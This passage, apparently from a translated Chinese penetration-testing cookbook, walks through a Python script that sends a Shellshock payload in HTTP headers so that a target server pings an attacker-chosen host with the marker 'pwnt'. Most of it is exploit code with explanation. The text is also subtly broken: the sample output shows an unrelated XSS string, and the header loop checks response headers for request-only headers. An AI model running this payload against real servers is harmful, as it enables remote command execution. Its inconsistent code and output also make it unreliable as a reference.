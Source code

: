 确定您要测试的 URL。一旦确定了目标网页，将其作为`sys.argv`传递给脚本：

## 如何做…

您的脚本应该与以下脚本相同：

```py
import requests
import sys
url = sys.argv[1]
payload = "() { :; }; /bin/bash -c 'ping –c 1 –p pwnt <url/ip>'"
headers ={}
r = requests.head(url)
for header in r.headers:
  if header == "referer" or header == "User-Agent": 
    headers[header] = payload
req = requests.post(url, headers=headers)
```

该脚本不会提供输出，因为它针对的是功能的管理员端。但是，您可以轻松地设置它在每次循环时提供输出：

```py
Print "Submitted "+payload
```

这将每次返回以下内容：

```py
Submitted <script>alert(1);</script>
```

## 它是如何工作的…

我们导入了此脚本所需的库，并以`sys.argv`函数的形式接受输入。这有点重复，但它完成了工作。

我们将我们的有效载荷声明为一个单一实体。如果您希望对服务器执行多个操作，可以将其设置为有效载荷，类似于前面的操作。我们还为我们的标头-有效载荷组合创建一个空字典，并向目标 URL 发出`HEAD`请求：

```py
payload = "() { :; }; /bin/bash -c 'ping –c 1 –p pwnt <url/ip>'"
headers ={}
r = requests.head(url)
```

此处设置的有效载荷将 ping 您在`<url/ip>`空间设置的任何服务器。它将在该 ping 中发送一条消息，即`pwnt`。这使您能够确定服务器实际上已被攻破，而不仅仅是一个随机服务器。

然后，我们遍历我们在初始的`HEAD`请求中提取的每个标头，并检查是否有`referrer`或`User-Agent`标头，这些标头容易受到 Shellshock 攻击。如果存在这些标头，我们对该标头发送我们的攻击字符串：

```py
for header in r.headers:
  if header == "referer" or header == "User-Agent": 
    headers[header] = payload
```

一旦我们确定了我们的标头是否存在，并已设置了针对它们的攻击字符串，我们就发出请求。如果成功，消息应该出现在我们的日志中：

```py
req = requests.post(url, headers=headers)
```
